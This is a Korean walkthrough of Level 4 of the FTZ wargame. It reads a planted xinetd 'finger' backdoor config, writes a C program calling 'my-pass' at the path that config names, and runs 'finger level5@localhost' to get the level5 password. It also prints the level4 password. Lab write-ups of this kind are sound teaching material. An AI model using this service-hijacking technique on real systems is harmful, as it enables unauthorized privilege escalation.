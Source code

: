 ```yaml
---
sort: 4
---
```


# Level 4

```note
id : level4

password : suck my brain
```

```bash
[level4@ftz level4]$ cat hint

누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
```

xinetd.d에는 여러가지 서비스 설정파일들이 존재한다.<br>
일단 뭐가 있는지 궁금하니 가서 살펴보자.

```bash
[level4@ftz level4]$ cd /etc/xinetd.d
[level4@ftz xinetd.d]$ ls -al
total 88
drwxr-xr-x    2 root     root         4096 Sep 10  2011 .
drwxr-xr-x   52 root     root         4096 Jan  7 18:41 ..
-r--r--r--    1 root     level4        171 Sep 10  2011 backdoor
-rw-r--r--    1 root     root          560 Dec 19  2007 chargen
-rw-r--r--    1 root     root          580 Dec 19  2007 chargen-udp
```

대놓고 backdoor라고 적혀있다.<br>
뭐라고 적혀있는지 살펴보자.

```bash
[level4@ftz xinetd.d]$ cat backdoor
service finger 
{
	disable	= no
	flags		= REUSE
	socket_type	= stream        
	wait		= no
	user		= level5
	server		= /home/level4/tmp/backdoor
	log_on_failure	+= USERID
}
```

finger는 사용자 계정 정보와 최근 로그인 정보, 이메일, 예약 작업 정보 등을 볼 수 있도록 하는 것이다.<br>
level5 유저가 사용할 경우 /home/level4/tmp/backdoor를 실행시키는 것으로 여겨진다. 그러나 해당 파일이 존재하지 않는다.<br>
따라서 level5의 비밀번호를 뱉어내는 backdoor를 직접 만들어내고 finger를 통해 실행시켜야한다.

```c
// /home/level4/tmp/backdoor.c
// gcc -o backdoor backdoor.c

#include <unistd.h>

int main(void)
{
	system("my-pass");
	return 0;
}
```

이제 finger를 실행시켜서 backdoor를 실행시키면 된다.<br>
finger를 그냥 실행시키면 level5유저로써 사용되지 않기 때문에 아래와 같이 remote형태로 사용해야한다.

```bash
[level4@ftz tmp]$ finger level5@localhost
```

```tip
## 알게 된 점

xinetd.d에는 서비스 설정 파일들이 존재한다.

finger 서비스
```